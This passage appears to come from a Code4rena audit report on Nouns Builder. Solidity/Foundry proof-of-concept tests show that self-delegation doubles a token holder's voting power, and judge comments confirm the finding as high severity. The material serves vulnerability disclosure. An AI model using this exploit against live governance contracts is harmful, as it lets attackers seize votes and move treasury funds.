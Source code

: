 ```solidity
    function test_delegate_to_self_doubles_voting_power() public {
        mintVoter1();

        assertEq(token.getVotes(address(voter1)), 1);

        vm.startPrank(voter1);
        token.delegate(address(voter1));

        assertEq(token.getVotes(address(voter1)), 2);
    }

    function mintToken(uint256 tokenId) internal {
        vm.prank(voter1);
        auction.createBid{ value: 0.420 ether }(tokenId);

        vm.warp(block.timestamp + auctionParams.duration + 1 seconds);
        auction.settleCurrentAndCreateNewAuction();
    }

    function test_delegate_to_self_multiple_tokens_doubles_voting_power() public {
        // An especially malicious user may acquire multiple tokens
        // before doubling their voting power through this exploit.
        mintVoter1();
        mintToken(3);
        mintToken(4);
        mintToken(5);
        mintToken(6);

        assertEq(token.getVotes(address(voter1)), 5);

        vm.prank(voter1);
        token.delegate(address(voter1));

        assertEq(token.getVotes(address(voter1)), 10);
    }
```

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/413#issuecomment-1258152894):**
 > The warden has shown how, because of an incorrect assumption in reducing a non-existing previous delegate votes, through self-delegation, a user can double their voting power.
> 
> Because the finding shows how the delegation system is broken, and because governance is a core aspect (Secure funds, move funds, etc..) I agree with High Severity.
> 
> Due to multiple reports of this type, with various different attacks, mitigation is non-trivial.

**[kulkarohan (Nouns Builder) confirmed](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/413)**

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/413#issuecomment-1261348244):**
 > In contrast to the dangerous overflow, this finding (and its duplicates) has shown how the Delegation Mechanism can be used to double the voting power.
> 
> For that reason, the underlying issue being different, am choosing to leave this finding separate.
